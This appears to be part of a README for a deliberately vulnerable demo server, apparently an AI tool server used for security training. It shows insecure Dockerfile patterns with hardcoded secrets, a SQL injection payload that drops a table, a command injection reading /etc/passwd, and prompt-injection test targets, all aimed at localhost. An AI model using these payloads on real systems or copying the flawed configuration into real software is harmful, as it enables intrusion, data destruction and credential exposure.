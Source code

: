 ### Container Vulnerability Examples

```dockerfile
# ❌ VULNERABILITY: Running as root
USER root

# ❌ VULNERABILITY: Installing attack tools
RUN apk add nmap tcpdump strace

# ❌ VULNERABILITY: Overpermissive files
RUN chmod -R 777 /app

# ❌ VULNERABILITY: Secrets in plain text
ENV ADMIN_TOKEN=admin123
ENV DATABASE_PASSWORD=vulnerable123
```

---

## 🧪 Testing the Vulnerabilities

### Manual Attack Testing

```bash
# 1. Test SQL Injection
curl -X POST http://localhost:8080/tools/call \
  -H "Content-Type: application/json" \
  -d '{
    "name": "get_pen_inventory", 
    "arguments": {
      "category": "'; DROP TABLE customers; --"
    }
  }'

# 2. Test Command Injection  
curl -X POST http://localhost:8080/tools/call \
  -d '{
    "name": "execute_system_command",
    "arguments": {"command": "cat /etc/passwd"}
  }'

# 3. Test Unauthorized Data Access
curl http://localhost:8080/resources/pen://customers/all

# 4. Test System Config Exposure
curl http://localhost:8080/resources/pen://system/config
```

### Automated Attack Suite

```bash
# Run comprehensive attack simulation
make attack-demo

# Individual attack tests
make test-prompt-injection
make test-sql-injection  
make test-command-injection

# System reconnaissance
make list-tools
make list-vulnerabilities
```
